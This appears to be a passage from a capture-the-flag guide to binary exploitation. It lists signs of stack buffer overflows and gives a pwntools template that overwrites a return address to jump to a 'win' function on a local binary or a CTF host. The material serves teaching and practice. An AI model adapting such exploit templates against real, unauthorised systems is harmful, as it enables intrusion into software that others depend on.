 *[Screenshot placeholder: GDB session showing crashed program with pattern in registers]*

---

## Common Vulnerability Types

### 1. Stack Buffer Overflow

#### Identification
- Look for functions using `gets()`, `strcpy()`, `scanf()` without bounds
- Fixed-size buffers receiving user input
- Missing length validation

#### Exploitation Pattern
```python
# File: buffer_overflow_template.py
#!/usr/bin/env python3

from pwn import *

# Configuration
binary_path = "./vulnerable_binary"
host = "target.ctf.com"
port = 1337

# Set context for target architecture
context.arch = 'amd64'
context.log_level = 'info'

def exploit_local():
    """Exploit local binary"""
    p = process(binary_path)
    return exploit_common(p)

def exploit_remote():
    """Exploit remote service"""
    p = remote(host, port)
    return exploit_common(p)

def exploit_common(p):
    """Common exploitation logic"""
    # Wait for prompt
    p.recvuntil(b"Enter name: ")
    
    # Craft payload
    offset = 40  # Found through analysis
    target_function = 0x401234  # Address of win function
    
    payload = b'A' * offset
    payload += p64(target_function)
    
    # Send payload
    log.info("Sending payload...")
    p.sendline(payload)
    
    # Interact with shell/response
    p.interactive()

if __name__ == "__main__":
    # Uncomment appropriate line:
    exploit_local()
    # exploit_remote()
```
